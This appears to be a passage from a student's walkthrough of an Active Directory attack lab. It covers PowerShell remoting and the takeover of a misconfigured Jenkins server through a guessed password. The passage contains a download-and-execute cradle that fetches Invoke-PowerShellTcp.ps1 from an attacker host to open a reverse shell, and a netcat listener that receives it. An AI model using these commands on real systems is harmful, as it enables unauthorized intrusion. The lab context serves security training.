 **PowerShell Remoting**
* Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

* [dcorp-adminsrv.dollarcorp.moneycorp.local]C:\Users\studentx\Documents>$env:username
```
dcorp\studentx
```

## Abuse Jenkins Instance
**We have a misconfigured Jenkins instance on dcorp-ci (http://172.16.3.11:8080)**
**Manually trying the usernames as passwords we can identify that the user builduser has password builduser.**
**Use the encodedcomand parameter of PowerShell to use an encoded reverse shell or use download execute cradle in Jenkins build step.**

* powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443

**make sure to add an exception or turn off the firewall on the student VM.**
**You can find hfs.exe in the C:\AD\Tools directory of your student VM. Note that HFS goes in the system tray when minimized**

* C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443

![alt text](image-11.png)

![alt text](image-8.png)

![alt text](image-9.png)

![alt text](image-10.png)

![alt text](image-12.png)

* PS C:\Users\Administrator\.jenkins\workspace\Project0> $env:username
```
Ciadmin
```
* PS C:\Users\Administrator\.jenkins\workspace\Project0>$env:computername

## Objective 6
```
Abuse an overly permissive Group Policy to add studentx to the local administrators group on dcorp-ci.
```

### In Learning-Objective 1, we enumerated that there is a directory called 'AI' on the dcorp-ci machine where 'Everyone' has access Looking at the directory (\\\dcorp-ci\AI), we will find a log file

![alt text](image-13.png)
